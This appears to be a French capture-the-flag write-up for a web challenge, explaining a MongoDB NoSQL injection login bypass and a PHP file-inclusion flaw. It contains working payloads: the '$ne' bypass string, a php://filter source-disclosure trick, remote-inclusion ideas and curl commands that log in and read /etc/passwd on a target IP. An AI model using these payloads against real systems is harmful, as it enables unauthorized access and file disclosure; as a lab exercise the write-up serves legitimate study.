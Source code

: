# Find me 1-3

## Find_me 1/3

Le site affiche une page d'accueil avec tout en bas écrit "MONGO", on devine qu'ils utilisent une db `mongodb`, après quelque recherche, envoyer une requête `POST` avec **BurpSuite** avec ce payload : 

`?username[$ne]=1&password[$ne]=1`, qui crée la requête :

```php
...array(
    username => array($ne => 1),
    password => array($ne => 1)
);
```

Ce qui veut dire : tous les utilisateurs sauf l'utilisateur `1` qui a comme mot de passe `1`, ce qui vaut toujours vrai à part si les deux valeurs valent `1`.

`=> username != 1 & password != 1`



src : [Mongodb is vulnerable to SQL injection in PHP at least | Application Security](https://www.idontplaydarts.com/2010/07/mongodb-is-vulnerable-to-sql-injection-in-php-at-least/)

## Find_me 2/3

Sur le endpoint `/car-info.php?` ce script php utilise la fonction include depuis : 

`car-info.php?car=<fichier>` 

On pense à une exploitation `RFI` potentiel (inclure des fichiers distants dans le serveur herbergé)

À tester :

- `gist`

- `ngrok`

- `Xampp` pour héberger un site local

[PayloadsAllTheThings/README.md at master · swisskyrepo/PayloadsAllTheThings · GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

Piste :

`php://filter/convert.base64-encode/resource=shell.php` en endpoint permet d'avoir le contenu de shell.php encoder en base64, on décode pour obtenir le code des fichiers

`curl` :

- `curl -X POST -s http://213.32.7.237:<port>/login.php -c session.txt -d 'username[$ne]=1&password[$ne]=1'`
- `curl -s http://213.32.7.237:<port>/car-info.php?car=/etc/passwd -b session.txt`